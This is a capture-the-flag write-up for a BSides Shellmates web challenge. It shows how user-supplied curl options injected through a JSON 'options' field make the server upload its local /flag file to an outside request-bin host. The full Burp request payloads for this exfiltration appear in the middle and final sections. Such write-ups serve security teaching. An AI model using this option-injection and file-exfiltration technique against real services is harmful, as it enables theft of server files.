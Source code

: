 # Website Checker

## Description

> Is a website not working and you don't know if the problem is on your end or the webiste? I'll help you, use this website checker. Note: flag in /flag.
>
> https://website-checker.bsides.shellmates.club

## Write-Up


We intercept request using burpsuit :

```
POST / HTTP/1.1
Host: website-checker.bsides.shellmates.club
Content-Length: 55
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://website-checker.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://website-checker.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"host":"https://bsides.shellmates.club/","options":{}}
```

and response : 

```
HTTP/1.1 200 OK
server: gunicorn
date: Fri, 05 May 2023 20:39:00 GMT
content-type: text/html; charset=utf-8
content-length: 37
connection: close

{"statusCode": "200", "passed": true}
```

Now, to get more information about the server and on what does it run, let's try to intercept a request from the server. The server executes a request when testing the connectivity of a website. So, let's use `ngrok` or `request_bin` to get the request infos :

```
Host: enmsc59o7zw5.x.pipedream.net
X-Amzn-Trace-Id: Root=1-645582e1-4de5995438e449be5ed35552
user-agent: curl/8.0.1
accept: */*
```

<img src="./1.png"
     alt="Markdown Monster icon"
     style="
     width: 80%;
     diplay: box;"
/>

As we saw, the `options` attribute is an options for a curl command, so let's try to use to execute a command :

```
POST / HTTP/1.1
Host: website-checker.bsides.shellmates.club
Content-Length: 131
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://website-checker.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://website-checker.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"host":"https://enmsc59o7zw5.x.pipedream.net/","options":{
"-X": "POST",
"-d": "hello"
}}
```

The response in requestbin :

```
Host: enmsc59o7zw5.x.pipedream.net
X-Amzn-Trace-Id: Root=1-64558691-1fa6cdf43aa521e268ef106b
Content-Length: 5
user-agent: curl/8.0.1
accept: */*
content-type: application/x-www-form-urlencoded

"root":
"hello": ""
```

Since this worked, now let's find an option to get the `/flag` from the server.
From here, and when checking the `curl` options, we find :

```
└─$ curl --help
Usage: curl [options...] <url>
 -d, --data <data>          HTTP POST data
 -f, --fail                 Fail fast with no output on HTTP errors
 -h, --help <category>      Get help for commands
 -i, --include              Include protocol response headers in the output
 -o, --output <file>        Write to file instead of stdout
 -O, --remote-name          Write output to a file named as the remote file
 -s, --silent               Silent mode
 -T, --upload-file <file>   Transfer local FILE to destination
 -u, --user <user:password> Server user and password
 -A, --user-agent <name>    Send User-Agent <name> to server
 -v, --verbose              Make the operation more talkative
 -V, --version              Show version number and quit

This is not the full help, this menu is stripped into categories.
Use "--help category" to get an overview of all categories.
For all options use the manual or "--help all".
```

The most interesting one :

```
 -T, --upload-file <file>   Transfer local FILE to destination
```

We can use it to get the `/flag` :

In Burpsuit :

```
POST / HTTP/1.1
Host: website-checker.bsides.shellmates.club
Content-Length: 103
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://website-checker.bsides.shellmates.club
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://website-checker.bsides.shellmates.club/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"host":"https://enmsc59o7zw5.x.pipedream.net/","options":{
"-X": "POST",
"--upload-file":"/flag"
}}
```

Response in request bin :

<img src="./2.png"
     alt="Markdown Monster icon"
     style="
     width: 80%;
     diplay: box;"
/>

## Flag

shellmates{Curl_4nd_1t5_m4g1c4l_0Pt10n$$}

## More Information

 - https://reqbin.com/req/c-g5d14cew/curl-post-example
